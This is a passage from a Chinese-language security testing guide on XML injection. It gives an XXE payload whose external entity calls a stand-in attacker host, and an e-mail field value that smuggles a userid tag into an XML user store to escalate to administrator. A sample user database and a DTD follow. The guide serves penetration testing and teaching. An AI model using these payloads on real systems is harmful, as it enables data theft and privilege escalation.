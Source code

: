```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### 标记注入
完成第一步后，测试人员将获得有关XML文档结构的一些信息。然后，可以尝试注入XML数据和标签。我们将显示一个示例，说明如何导致特权升级攻击。

让我们考虑先前的应用程序。通过插入以下值：
```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

该应用程序将构建一个新节点并将其附加到XML数据库：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```

上面生成的XML文件格式是正确的。对于用户tony而言，与userid标记关联的值可能是最后出现的那个值，即0（管理员ID）。换句话说，我们为用户注入了管理权限。

唯一的问题是userid标记在最后一个用户节点中出现两次。通常，XML文档与模式或DTD相关联，如果它们不符合要求，则将被拒绝。

让我们假设XML文档是由以下DTD指定的：
```xml
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>
```
